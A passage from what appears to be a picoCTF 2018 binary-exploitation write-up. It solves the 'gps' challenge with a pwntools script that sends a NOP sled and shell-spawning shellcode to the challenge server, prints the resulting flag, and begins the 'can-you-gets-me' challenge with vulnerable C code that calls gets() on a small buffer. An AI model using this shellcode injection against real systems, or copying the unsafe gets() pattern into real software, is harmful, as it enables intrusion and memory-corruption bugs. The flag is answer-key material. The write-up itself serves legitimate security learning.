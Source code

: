 ## Problem

You got really lost in the wilderness, with nothing but your trusty [gps](/blog/picoctf-2018-writeup/Binary Exploitation/gps/gps). Can you find your way back to a shell and get the flag? Connect with `nc 2018shell2.picoctf.com 29035`. ([Source](/blog/picoctf-2018-writeup/Binary Exploitation/gps/gps.c)).

## Solution

This problem is just a harder version of [shellcode](#shellcode). The difference is that we need to find the starting address of the shellcode that we wrote into memory. This can be tricky if you are aiming for one single address; however, with the help of a [nop slide](https://en.wikipedia.org/wiki/NOP_slide) which is basically a dump of `nop` instructions, we can make our shellcode a lot more random-resistant as we will only need to land on one of the `nop` instructions.

Here is my script (`'\x90'` is the assembly code for `nop`):

```python
from pwn import *

context.log_level = 'debug'
context.binary = './gps'
# sh = process('./gps')
sh = remote('2018shell2.picoctf.com', 29035)
pause()
print sh.recvuntil('> ')
payload = asm(shellcraft.amd64.linux.sh())
payload = '\x90'*(0x1000-1-len(payload)) + payload
sh.sendline(payload)
sh.interactive()
```

flag: `picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_gvzbnemc}`

# can-you-gets-me

## Problem

Can you exploit the following [program](/blog/picoctf-2018-writeup/Binary Exploitation/can-you-gets-me/gets) to get a flag? You may need to think return-oriented if you want to program your way to the flag. You can find the program in /problems/can-you-gets-me_4_f269dbca3097204b5d4a0064467b0a8c on the shell server. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/can-you-gets-me/gets.c).

## Solution

Let's take a look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){
```